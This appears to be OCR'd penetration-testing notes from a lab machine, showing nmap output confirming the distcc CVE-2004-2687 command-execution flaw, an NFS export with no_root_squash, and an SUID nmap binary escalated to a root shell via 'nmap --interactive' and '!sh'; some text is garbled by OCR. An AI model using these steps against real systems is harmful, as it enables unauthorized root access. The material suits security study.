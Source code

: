 
PORT     STATE SERVICE  
3632/tcp open  distccd  
| distcc-cve2004-2687:    
|   VULNERABLE:  
|   distcc Daemon Command Execution  
|     State: VULNERABLE (Exploitable)  
|     IDs:  CVE:CVE-2004-2687  
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)  
|       Allows executing of arbitrary commands on systems running distccd 3.1 and  
|       earlier. The vulnerability is the consequence of weak service configuration.  
|          
|     Disclosure date: 2002-02-01  
|     Extra information:  
|          
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)  
|      
|     References:  
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687  
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687  
|_      ht


╔══════════╣ Analyzing NFS Exports Files (limit 70)  
Connected NFS Mounts:    
rpc_pipefs /var/lib/nfs/rpc_pipefs rpc_pipefs rw,relatime 0 0  
nfsd /proc/fs/nfsd nfsd rw,rz<elatime 0 0  
-rw-r--r-- 1 root root 367 May 13  2012 
/etc/exports/       *(rw,sync,**no_root_squash**,no_subtree_check)

SUID - Check easy privesc, exploits and write perms
-rwsr-xr-x 1 root root 763K Apr  8  2008 /usr/bin/nmap

`nmap --interactive`

`!sh`

`now root :3`


